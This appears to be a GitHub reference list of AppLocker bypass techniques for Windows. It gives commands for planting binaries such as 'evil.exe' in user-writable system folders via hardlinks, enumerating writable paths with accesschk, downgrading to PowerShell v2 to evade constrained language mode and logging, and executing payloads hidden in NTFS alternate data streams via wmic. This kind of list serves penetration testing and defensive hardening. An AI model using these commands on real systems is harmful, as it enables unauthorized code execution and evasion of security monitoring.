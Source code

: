 This list contains generic methods of bypassing AppLocker.

## Placing files in writeable paths

The following folders are by default writable by normal users (depends on Windows version - This is from W10 1803)
```
C:\Windows\Tasks 

C:\Windows\Temp 

C:\windows\tracing

C:\Windows\Registration\CRMLog

C:\Windows\System32\FxsTmp

C:\Windows\System32\com\dmp

C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys

C:\Windows\System32\spool\PRINTERS

C:\Windows\System32\spool\SERVERS

C:\Windows\System32\spool\drivers\color

C:\Windows\System32\Tasks\Microsoft\Windows\SyncCenter

C:\Windows\System32\Tasks_Migrated (after peforming a version upgrade of Windows 10)

C:\Windows\SysWOW64\FxsTmp

C:\Windows\SysWOW64\com\dmp

C:\Windows\SysWOW64\Tasks\Microsoft\Windows\SyncCenter

C:\Windows\SysWOW64\Tasks\Microsoft\Windows\PLA\System
```

If you can place a file or folder into the path you become the owner of that object and you can change the ACL either in GUI or using ICALS. That includes adding Execute rights and more.
If deny execute is inherit you can either disable inheritance or you can use hardlink to a binary file in another folder using one of these commands:
```
fsutil hardlink create c:\windows\system32\fxstmp\evil.exe c:\myfolder\plantedfile.exe 

mklink /h c:\windows\system32\fxstmp\evil.exe c:\myfolder\plantedfile.exe 
```


You can check the for additional paths by running accesschk from sysinternals and supplying these commands:
```
accesschk -w -s -q -u Users "C:\Program Files" >> programfiles.txt
accesschk -w -s -q -u Everyone "C:\Program Files" >> programfiles.txt
accesschk -w -s -q -u "Authenticated Users" "C:\Program Files" >> programfiles.txt
accesschk -w -s -q -u Interactive "C:\Program Files" >> programfiles.txt

accesschk -w -s -q -u Users "C:\Program Files (x86)" >> programfilesx86.txt
accesschk -w -s -q -u Everyone "C:\Program Files (x86)" >> programfilesx86.txt
accesschk -w -s -q -u "Authenticated Users" "C:\Program Files (x86)" >> programfilesx86.txt
accesschk -w -s -q -u Interactive "C:\Program Files (x86)" >> programfilesx86.txt

accesschk -w -s -q -u Users "C:\Windows" >> windows.txt
accesschk -w -s -q -u Everyone "C:\Windows" >> windows.txt
accesschk -w -s -q -u "Authenticated Users" "C:\Windows" >> windows.txt
accesschk -w -s -q -u Interactive "C:\Windows" >> windows.txt
```

## User writeable files
There are cases where files are writeable by the user and can be used to bypass AppLocker. One such known case is 3 files under C:\windows\system32\AppLocker called:

* AppCache.dat
* AppCache.dat.LOG1
* AppCache.dat.LOG2

These files are writeable by the first user that logs on to the computer after AppLocker has been deployed to the machine. More details here: 

* https://oddvar.moe/2019/05/29/a-small-discovery-about-applocker/
   
## PowerShell version 2

```
Powershell -version 2
```
Bypasses Constrained language mode in PowerShell (and also logging). To fix this Powershell version 2 should be removed from Add/Remove Windows features. 
   
   
    
## Visual Studio Tools for Office - .VSTO files

```
evilfile.vsto
```

You need to build a solution using Visual Studio Tools for Office. 
User needs to confirm installation after executing. 

* https://bohops.com/2018/01/31/vsto-the-payload-installer-that-probably-defeats-your-application-whitelisting-rules/
      
     
     
## NTFS Alternate Data Streams (ADS)

AppLocker rules does not stop things that execute in ADS. More info on that here: https://hitco.at/blog/howto-prevent-bypassing-applocker-using-alternate-data-streams/
This means you can pipe data to a stream and execute it using many of the different methods:
https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f

Example on adding binary to a writable file under program files (using ADS):
```
type C:\temp\evil.exe > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"

wmic process call create '"C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"'

```

    
